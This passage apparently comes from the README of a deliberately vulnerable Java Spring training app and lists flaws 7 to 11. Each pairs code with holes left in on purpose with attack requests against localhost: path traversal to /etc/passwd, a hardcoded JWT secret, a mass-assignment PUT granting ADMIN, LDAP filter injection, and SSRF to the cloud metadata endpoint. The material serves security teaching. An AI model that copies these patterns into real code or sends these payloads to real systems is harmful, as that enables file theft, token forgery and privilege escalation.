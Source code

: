 ### 7. Path Traversal
```java
@GetMapping("/download")
public byte[] download(@RequestParam String filename) {
    return Files.readAllBytes(Paths.get("uploads/" + filename));
}

// Attack
http://localhost:8084/download?filename=../../../etc/passwd
```

### 8. JWT Secret Hardcoded
```java
// Weak/hardcoded secret
private final String SECRET = "mySecretKey";

// Can be exploited to forge tokens
```

### 9. Mass Assignment
```java
@PutMapping("/users/{id}")
public User updateUser(@PathVariable Long id, @RequestBody User user) {
    return userRepository.save(user); // All fields updated!
}

// Attack - Set admin role
PUT /users/1
{"username":"user","password":"pass","role":"ADMIN","salary":999999}
```

### 10. LDAP Injection
```java
@GetMapping("/ldap-search")
public List<User> search(@RequestParam String filter) {
    return ldapTemplate.search("", "(&(objectClass=person)(cn=" + filter + "))", new UserMapper());
}

// Attack
http://localhost:8084/ldap-search?filter=*)(objectClass=*
```

### 11. Server-Side Request Forgery (SSRF)
```java
@GetMapping("/fetch")
public String fetchUrl(@RequestParam String url) {
    return restTemplate.getForObject(url, String.class);
}

// Attack
http://localhost:8084/fetch?url=http://169.254.169.254/latest/meta-data/
http://localhost:8084/fetch?url=file:///etc/passwd
```
